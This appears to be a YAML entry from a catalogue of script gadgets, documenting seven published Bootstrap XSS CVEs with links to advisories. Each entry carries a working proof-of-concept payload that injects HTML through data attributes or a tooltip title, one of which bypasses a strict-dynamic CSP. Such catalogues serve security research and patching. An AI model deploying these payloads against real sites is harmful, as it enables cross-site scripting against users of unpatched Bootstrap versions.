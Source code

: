 ```yaml
---
description: The most popular HTML, CSS, and JavaScript framework for developing responsive, mobile first projects on the web.
github: twbs/bootstrap
gadgets:
  <3.4.1 & <4.3.1:
    cve: CVE-2019-8331
    authors:
      - twitter:zozuar
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - title-attr
      - strict-dynamic-csp
      - before-func-call
    pocs:
      - description: The [Bootstrap](https://github.com/twbs/bootstrap) library was loading HTML from the `title` attribute. An `hover` interaction is required.
        code: |
          <script nonce="secret" src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
          <script nonce="secret" src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.0/js/bootstrap.min.js"></script>

          <!-- user input -->
          <x data-toggle="tooltip" data-html="true" title="<script>alert(document.domain)</script>">Hover me</x>

          <script nonce="secret">
              $("[data-toggle='tooltip']").tooltip();
          </script>
    links:
      - https://blog.getbootstrap.com/2019/02/13/bootstrap-4-3-1-and-3-4-1/
      - https://github.com/twbs/bootstrap/pull/28236
      - https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6
  <3.4.0 (1):
    cve: CVE-2018-20677
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - before-lib-load
    pocs:
      - description: The [Bootstrap](https://github.com/twbs/bootstrap) library was loading HTML from the `data-target` attribute.
        code: |
          <script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
          <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

          <!-- user input -->
          <x data-spy="affix" data-target="<img src=x onerror=alert(document.domain)>">XSS</x>
    links:
      - https://blog.getbootstrap.com/2018/12/13/bootstrap-3-4-0/
      - https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6
  <3.4.0 (2):
    cve: CVE-2018-20676
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - before-func-call
    pocs:
      - description: The [Bootstrap](https://github.com/twbs/bootstrap) library was loading HTML from the `data-viewport` attribute.
        code: |
          <script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
          <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

          <!-- user input -->
          <x data-toggle="tooltip" data-viewport="<img src=x onerror=alert(document.domain)>"></x>

          <script>
              $('[data-toggle="tooltip"]').tooltip();
          </script>
    links:
      - https://blog.getbootstrap.com/2018/12/13/bootstrap-3-4-0/
      - https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6
  <3.4.0 (3) & < 4.1.2:
    cve: CVE-2018-14040
    authors:
      - github:1Jesper1
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - href-attr
      - id-attr
      - data-attr
      - before-lib-load
    pocs:
      - description: The [Bootstrap](https://github.com/twbs/bootstrap) library was loading HTML from the `data-parent` attribute. An `click` interaction is required.
        code: |
          <script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
          <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>

          <!-- user input -->
          <x id="x" data-toggle="collapse" href="#x" data-parent="<img src=x onerror=alert(document.domain)>">Click me</x>
    links:
      - https://blog.getbootstrap.com/2018/07/12/bootstrap-4-1-2/
      - https://github.com/twbs/bootstrap/issues/26625
      - https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6
  <3.4.0 (4) & < 4.1.2 (2):
    cve: CVE-2018-14041
    authors:
      - github:1Jesper1
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - before-lib-load
    pocs:
      - description: The [Bootstrap](https://github.com/twbs/bootstrap) library was loading HTML from the `data-target` attribute. An `click` interaction is required.
        code: |
          <script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
          <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>

          <!-- user input -->
          <x data-spy="scroll" data-target="<img src=x onerror=alert(document.domain)>">XSS</x>
    links:
      - https://blog.getbootstrap.com/2018/07/12/bootstrap-4-1-2/
      - https://github.com/twbs/bootstrap/issues/26627
      - https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6
  <3.4.0 (5) & < 4.1.2 (3):
    cve: CVE-2018-14042
    authors:
      - github:1Jesper1
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - before-func-call
    pocs:
      - description: The [Bootstrap](https://github.com/twbs/bootstrap) library was loading HTML from the `data-container` attribute. An `hover` interaction is required.
        code: |
          <script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
          <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
          <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>

          <!-- user input -->
          <x data-toggle="tooltip" data-container="<img src=x onerror=alert(document.domain)>">Hover me</x>

          <script>
              $('[data-toggle="tooltip"]').tooltip();
          </script>
    links:
      - https://blog.getbootstrap.com/2018/07/12/bootstrap-4-1-2/
      - https://github.com/twbs/bootstrap/issues/26627
      - https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6
  <3.4.0 (6) & < v4.0.0-beta:
    cve: CVE-2016-10735
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - data-attr
      - before-lib-load
    pocs:
      - description: The [Bootstrap](https://github.com/twbs/bootstrap) library was loading HTML from the `data-target` attribute. An `click` interaction is required.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
          <script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
          <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.0.0-beta/js/bootstrap.min.js"></script>

          <!-- user input -->
          <x data-toggle="collapse" data-target="<img src=x onerror=alert(document.domain)>">Click me</x>
    links:
      - https://gist.github.com/BlackFan/e968b5209637952cca1580dc8ffdfde6
---
```

